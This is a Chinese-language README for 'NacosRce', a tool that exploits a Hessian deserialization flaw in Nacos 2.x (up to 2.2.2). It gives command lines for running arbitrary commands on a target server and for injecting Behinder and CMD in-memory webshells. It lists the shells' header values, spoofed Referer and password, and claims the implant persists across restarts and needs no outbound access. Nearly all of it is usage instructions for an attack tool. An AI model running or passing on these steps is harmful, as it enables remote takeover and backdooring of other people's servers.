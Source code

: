 <a name="QnUES"></a>
## Nacos Hessian 反序列化漏洞利用工具 v0.4

```latex

  _   _                     ____          
 | \ | | __ _  ___ ___  ___|  _ \ ___ ___ 
 |  \| |/ _` |/ __/ _ \/ __| |_) / __/ _ \
 | |\  | (_| | (_| (_) \__ \  _ < (_|  __/
 |_| \_|\__,_|\___\___/|___/_| \_\___\___|
```
<br />Author: 刨洞安全 && 凉风<br />**食用方式 **

1. 执行无回显命令	<br />java -jar NacosRce.jar ip:port "command"
2. 同时注入冰蝎&&CMD内存马(推荐)<br />java -jar NacosRce.jar ip:port memshell
3. 如果nacos是win的: java -jar NacosRce.jar ip:port memshell windows

1. 冰蝎内存马使用方法：<br />1、需要设置请求头x-client-data:rebeyond<br />2、设置Referer:https://www.google.com/<br />3、路径随意<br />4、密码rebeyond
2. CMD内存马使用方法：<br />1、需要设置请求头x-client-data:cmd<br />2、设置Referer:https://www.google.com/<br />3、请求头cmd:要执行的命令

v0.4版本实现了：<br />1、不出网漏洞利用<br />2、可多次发起漏洞利用<br />3、注入冰蝎/CMD内存马<br />4、内存马对多版本进行了兼容<br />tips:<br />1、请用jdk1.8<br />2、适用于 Nacos 2.x <= 2.2.2<br />3、非集群的也能打哦<br />4、此内存马重启nacos依然存活

参考文章<br />[https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/](https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/)<br />[https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-反序列化分析/](https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/)<br />[https://github.com/Y4er/ysoserial](https://github.com/Y4er/ysoserial)
